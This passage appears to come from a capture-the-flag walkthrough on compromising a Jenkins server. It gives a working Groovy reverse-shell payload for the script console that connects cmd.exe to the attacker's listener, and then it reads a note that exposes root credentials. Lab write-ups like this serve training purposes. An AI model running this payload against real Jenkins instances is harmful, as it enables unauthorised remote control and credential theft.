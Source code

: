 As you can see I got a request much different from the others, often that means that we have what we want.

Now that we are into Jenkins we just need to go to the script console, and writing this:

```bash
Thread.start {
String host="<your_machine_IP>";
int port=<your_webserver_port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

And start the listener in our machine.

Now that we are inside the machine we can go into the opt folder again and take the root credentials:

```bash
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```